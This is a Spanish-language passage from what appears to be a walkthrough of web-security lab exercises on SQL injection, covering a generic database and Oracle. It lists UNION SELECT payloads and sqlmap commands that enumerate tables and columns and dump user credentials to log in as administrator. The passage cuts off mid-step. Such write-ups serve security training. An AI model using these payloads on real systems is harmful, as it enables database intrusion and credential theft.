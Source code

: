 ``'+UNION+SELECT+'abc','def'--. 

3. Use la siguiente carga útil para recuperar la lista de tablas en la base de datos: 

``'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables-- 

4. Busque el nombre de la tabla que contiene las credenciales de usuario. 

5. Utilice la siguiente carga útil (reemplazando el nombre de la tabla) para recuperar los detalles de las columnas de la tabla: 
``'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'-- 

6. Busque los nombres de las columnas que contienen los nombres de usuario y las contraseñas. 

7. Utilice la siguiente carga útil (reemplazando los nombres de tabla y columna) para recuperar los nombres de usuario y las contraseñas de todos los usuarios: 

``'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef-- 

8. Busque la contraseña del usuario ``administrador`` y úsela para iniciar sesión.

## SQLi attack, Listado del contenido de la base de datos en Oracle

#### Solución Rápida:

Obtener tablas 

``sqlmap -u "<target_url>" --tables

Luego encontré la tabla de destino y la ejecuté 

``sqlmap -u "<target_url>" -T <users_table_name> --dump 

#### Solución Larga:

1. Use Burp Suite para interceptar y modificar la solicitud que establece el filtro de categoría de producto. 

2. Determine el número de columnas que devuelve la consulta y cuáles contienen datos de texto. Verifique que la consulta devuelva dos columnas, ambas con texto, utilizando una carga útil como la siguiente en el parámetro ``category``: 

``'+UNION+SELECT+'abc','def'+FROM+dual--

3. Use la siguiente carga útil para recuperar la lista de tablas en la base de datos: 

``'+UNION+SELECT+table_name,NULL+FROM+all_tables-- 

4. Busque el nombre de la tabla que contiene las credenciales de usuario. 

5. Utilice la siguiente carga útil (reemplazando el nombre de la tabla) para recuperar los detalles de las columnas de la tabla: 

``'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'-- 

6. Busque los nombres de las columnas que contienen los nombres de usuario y las contraseñas.

7. Utilice la siguiente carga útil (reemplazando los nombres de tabla y columna) para recuperar los nombres de usuario y las contraseñas de todos los usuarios: 
